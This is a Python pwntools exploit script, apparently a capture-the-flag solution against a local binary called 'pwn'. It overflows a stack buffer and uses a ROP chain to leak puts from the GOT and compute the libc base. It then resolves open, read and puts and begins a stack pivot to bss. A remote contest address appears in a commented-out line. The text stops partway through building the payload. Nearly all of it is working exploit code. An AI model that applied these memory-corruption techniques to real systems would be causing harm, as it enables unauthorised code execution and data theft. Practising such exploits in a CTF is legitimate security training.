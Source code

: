 ```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('139.196.183.57',32391)
elf = ELF('./pwn')
libc=ELF('./libc.so.6')

def duan():
    gdb.attach(p)
    pause()

puts_got = 0x404028#elf.got['puts']
puts_plt = 0x4010C4#elf.plt['puts']
ru("Greetings. Traveller from beyond the fog. I Am Melina. I offer you an accord.\n")
rdi=0x00000000004013e3
ret=0x000000000040101a

pl = 'a'*0x108 + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(0x40125B)
sl(pl)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base = puts_addr - libc.sym["puts"]
#duan()
leak('libc_base ',libc_base)

open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
puts_addr = libc_base + libc.sym['puts']

ru("Greetings. Traveller from beyond the fog. I Am Melina. I offer you an accord.\n")

bss=0x404200#elf.bss()+0x100
pl='a'*0x100+p64(bss)+p64(0x401276)
s(pl)
pl='a'*0x100+p64(bss+0x100)+p64(0x401276)
```